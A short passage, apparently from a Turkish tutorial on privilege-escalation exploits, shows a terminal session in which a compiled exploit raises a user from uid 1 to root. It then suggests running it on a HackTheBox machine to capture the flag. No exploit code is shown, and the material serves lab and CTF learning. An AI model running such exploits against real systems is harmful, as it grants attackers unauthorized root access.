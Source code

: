 Hadi exploit'i deneyelim:
```
/ $ id
uid=1 gid=1
/ $ ./exploit.elf
exploit was successful, popping a shell
/ # id
uid=0 gid=0
```
Ve ilk root expolitimiz bundan ibaret! Dilerseniz bunu HackTheBox makinesinde çalıştırıp, bayrağı da alabilirsiniz.

---
[Önceki](intro.md) | [Sonraki](end.md)
